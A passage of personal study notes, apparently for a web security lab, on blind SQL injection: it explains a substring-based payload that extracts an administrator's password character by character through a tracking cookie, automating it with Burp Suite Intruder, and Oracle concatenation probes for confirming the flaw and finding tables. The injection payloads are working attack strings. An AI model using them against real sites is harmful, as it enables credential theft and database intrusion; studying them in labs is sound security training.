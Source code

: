 - Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column_Name                        ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- Column_Name_same...           ---> Same Column Name has the one selected
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	wQzpcksV9nxMDwHH' and (select substring(Column_Name_PASSWORD,§2§,1) from Table_Name where Column_Name='administrator')='§a§'--'
	```
	- Set the attack to Cluster Bomb and load the payloads

---

## Concatenation Technique

Steps
- Prove parameter is vulnerable
- Find Tables
- Find Column Name ??? (Review)
- Find Variables in a Column
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Pasted image 20221206184026.png]]

Prove the TrackingID is vulnerable
```
' (error) & '' (back to normal)

' || (select '' || '                     ---> Not Working (Try other database synthax)

' || (select '' from dual) || '          ---> oracle database (True)

' || (select '' from dualfiewjfow) || '  ---> error (False)
```

||                         ---> Simply mean to the query that a new query will be made in the same query


Find Table (Try and Errors)
```
' || (select '' from TABLE where rownum =1) || '
```
